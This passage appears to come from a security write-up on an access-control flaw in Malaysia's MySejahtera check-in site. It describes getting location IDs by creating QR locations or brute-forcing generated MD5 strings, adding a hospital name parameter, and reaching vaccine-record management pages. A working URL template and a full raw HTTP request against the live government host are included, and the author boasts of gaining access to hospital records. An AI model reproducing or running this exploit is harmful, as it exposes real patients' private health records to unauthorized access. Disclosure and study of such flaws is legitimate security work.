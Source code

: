 The **viewRecords** function in the JS explain the tenant type (authorized) based on the access level. The "HEALTH_FACILITY" tenant only accessible by the authorized doctors / clinics / hospital. I was trying some crazy stuff like brute forcing the **locationId** however it didn't work as we need to know exactly how it gets generated and what kind of strings there we don't really know. It seems the **locationId** gets generated on the backend of the server. So to understand how we can generate the **locationId** strings, we can simply create a QR code location (the one that we keep scanning when entering premises using MySj mobile app) and we should be able to generate the location ID strings. The strings itself contains 32-bit length (it looks like MD5 lol but I don't think so). So when creating the QR code location, we can specify the name of the premise such hospitals or clinics name. In this case we can simply use well known hospital / clinics name in Malaysia and we can get the location ID. Easy right? Or we can just blindly generate MD5sum in Linux and generates thousands or millions of it and use against it (I tried this and it works LOL). Next is to find the hospital name based on "?ln=" parameter. It's easy, just put the hospital name and you are good to go. You can see the example visualizing the locations, etc. and how the final URL should looks like.
```
https://mysejahtera.malaysia.gov.my/checkin - URL with path after login

/manageVaccineeRecords/locationId/<random 32 bit> - path to manage vaccine record with 32-bit random strings 

?ln=Hospital%20Here - ln is location name and we can put any hospital name here
 

Final URL should be like this:
https://mysejahtera.malaysia.gov.my/checkin/manageVaccineeRecords/locationId/5ee309c289892068a4d3f0bb?ln=HospitalNameHere
```

Let's take a look at the example
```
GET /checkin/manageVaccineeRecords/locationId/5ee309c289892068a4d3f0bb?ln=Hospital%20Putrajaya HTTP/2
Host: mysejahtera.malaysia.gov.my
Cookie: acw_tc=<redacted_here>
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

Voila! We got access to the hospital record :)
